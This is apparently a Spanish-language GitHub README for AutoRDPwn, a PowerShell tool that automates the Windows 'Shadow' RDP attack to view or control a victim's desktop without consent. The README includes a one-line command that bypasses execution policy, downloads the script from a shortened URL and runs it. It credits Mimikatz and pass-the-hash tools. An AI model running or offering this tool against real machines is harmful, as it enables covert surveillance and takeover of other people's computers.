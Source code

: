 
![AutoRDPwn](https://user-images.githubusercontent.com/34335312/45109339-8b203580-b13f-11e8-9de7-1210114313bb.png)



**AutoRDPwn** es un script creado en Powershell y diseñado para automatizar el ataque **Shadow** en equipos Microsoft Windows. Esta vulnerabilidad permite a un atacante remoto visualizar el escritorio de su víctima sin su consentimiento, e incluso controlarlo a petición. Para su correcto funcionamiento, es necesario cumplir los requisitos que se describen en la guía de uso.


# Requisitos
Powershell 5.0 o superior


# Cambios

## Versión 3.7
• Auto-detección de la versión de Powershell instalada

• El usuario "AutoRDPwn" se elimina automáticamente 2 horas después de realizar el ataque

*El resto de cambios se pueden consultar en el fichero CHANGELOG


# Uso
**Ejecución en una línea:**

powershell -ExecutionPolicy Bypass "cd $env:TEMP ; iwr https://goo.gl/HSkAXP -Outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"

**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• **Mark Russinovich** por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• **Marc R Kellerman** por su herramienta Invoke-CommandAs -> https://github.com/mkellerman/Invoke-CommandAs

• **Stas'M Corp.** por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

• **Kevin Robertson** por su herramienta Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• **Benjamin Delpy** por su herramienta Mimikatz -> https://github.com/gentilkiwi/mimikatz


# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de info@darkbyte.net
